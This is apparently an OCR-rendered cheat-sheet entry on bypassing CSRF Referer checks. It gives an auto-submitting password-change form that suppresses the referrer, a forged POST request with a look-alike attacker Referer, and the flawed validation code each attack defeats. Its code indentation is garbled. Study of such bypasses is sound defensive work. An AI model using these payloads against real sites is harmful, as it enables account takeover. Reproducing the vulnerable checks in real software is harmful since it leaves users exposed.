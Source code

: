     - **Bypass CSRF Referer Header Check**
        
        ```python
        # Just Remove The referrer
        <html>
         <meta name="referrer" content="no-referrer">
         <form method="POST" action="<https://email.example.com/password_change>" id="csrf-form">
         <input type="text" name="new_password" value="abc123">
         <input type='submit' value="Submit">
         </form>
         <script>document.getElementById("csrf-form").submit();</script>
        </html>
        --------------------
        # Expected Code
        def validate_referer():
         if (request.referer in allowlisted_domains):
        pass
         else:
         throw_error("Referer incorrect. Request rejected.")
        [...]
        def process_state_changing_action():
         if request.referer:
         validate_referer()
         execute_action()
        ---------------------------
        # another way
        POST /password_change
        Host: email.example.com
        Cookie: session_cookie=YOUR_SESSION_COOKIE;
        Referer: example.com.attacker.com
        (POST request body)
        new_password=abc123
        ------------------
        # Vulnerable code
        def validate_referer():
         if request.referer:
         if ("example.com" in request.referer):
         pass
         else:
         throw_error("Referer incorrect. Request rejected.")
        [...]
        def process_state_changing_action():
         validate_referer()
         execute_action()
        ```
        